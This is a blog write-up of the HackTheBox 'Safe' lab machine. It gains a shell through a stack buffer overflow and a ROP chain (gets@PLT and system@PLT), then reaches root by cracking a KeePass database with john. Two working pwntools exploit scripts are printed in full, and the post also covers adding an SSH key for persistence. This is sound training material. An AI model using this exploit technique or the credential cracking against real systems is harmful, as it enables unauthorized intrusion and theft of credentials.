 ```yaml
---
layout: post
title:	"Safe Writeup"
date:	2019-10-26
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img0.png)

### User Flag

Let's run a full TCP scan with NMAP in order to enumerate all the available TCP services:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img1.png)

How we can see, there are 3 open ports. On the 1337, there is an unknow service:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img2.png)

Going to http://10.10.10.147, we find the default Apache webpage but, by inspecting the source code, we find a comment about the service running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img3.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img4.png)

We can download the binary at http://10.10.10.147/myapp, it's the same running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img5.png)

Now check if the service crashes after receiving a certain ammount of character, we can use python to generate 119 'A's:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img6.png)

Ok, it crashes! Let's use [gdb-peda](https://github.com/longld/peda) to debug the application and understand how it working. In the following image we can see the only enabled protection is NX, obviously the operating system has ASRL enabled too (trust me it's enabled :-P):

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img7.png)

Because there is no PIE, the PLT is not randomized so we can call the puts, system, prinft and gets functions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img8.png)

Let's set a break point on the gets call and try to debug the binary:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img9.png)

How we can see, we are no able to debug the application because a new process is spawned and our debuger is not able to "follow" the new spawned process. In order to solve this problem, we can use the "set follow-fork-mode parent" command in order to let gdb-peda to "came back" to our process:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img10.png)

At this point, we need to know how much 'A's we need to overwrite EBP, to do this, we can use the pattern_create script:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img11.png)

Using the obtained string, we can see the value of EBP and use the pattern_offset to obtain the number of 'A's we need to overwrite EBP, we have to add 8 more 'A's to overwrite EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img12.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img13.png)

With 120 'A's and 8 'B's we are able to trigger a ret instruction on the address 0x4242424242424242, that means we controll EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img14.png)

At this point, we controll the program flow, the idea is to call the system function (via PLT ad fix address), with /bin/bash as parameter. The x64 calling convetion tells us that the first argument must be pass throu the RDI register. So we need an instruction that take the value on the top of the stack and put it into the RDI register. We can use ROPgadget for this purpose:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img15.png)

Ok, our instruction is at address 0x40120b!!
So what does our payload should do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string
* System PLT Address 

Is it ok? No, we have another problem: ASRL(I told you before :-P), we don't know the address of our "/bin/bash" string. We need to figure it out how to deal with it! We can find a writable fixed address, use the GETS function (PLT) to write our "/bin/bash" string into it. Using the vmmap command, we can see the memory mapping and it's permissions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img16.png)

Ok, how we can see, the memory from 0x00404000  to 0x00405000  is writable and is part of our binary (fixed address!!!), let's use the address 0x404050. What does our exploit have to do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Writable Address (0x404050)
* Gets PLT Address 
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string (0x404050)
* System PLT Address 

Using [pwntool](https://pwntools.com), this is the local exploit:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = process("/root/Desktop/myapp")

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401040) #system@PLT
print p.read 
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img17.png)

Ok it works, let's use the connection to the remote service in order to obtain a reverse shell from Safe machine:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = remote("10.10.10.147",1337)

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address 
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401040) #system@PLT
payload += "\x90" *50
print p.read
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img18.png)

### Root Flag

We can add our ssh key to the authorized_key file in order to access with SSH:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img19.png)

In the home folder of user there are 6 images and a keepass file:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img20.png)

We can use keepass2john and john to crack the keepass file,  one of the images maybe a keyfile, using keepass2john we can generate an a file containing multiple hashes, one for each images as key :

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img21.png)

With john, we obtain the password "bullshit":

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img22.png)

Using the password "bullshit" and the file IMG_0547.JPG as keyfile, we can access the keepass file and obtain the root password:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img23.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img24.png)

With su command we become the user root:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img25.png)









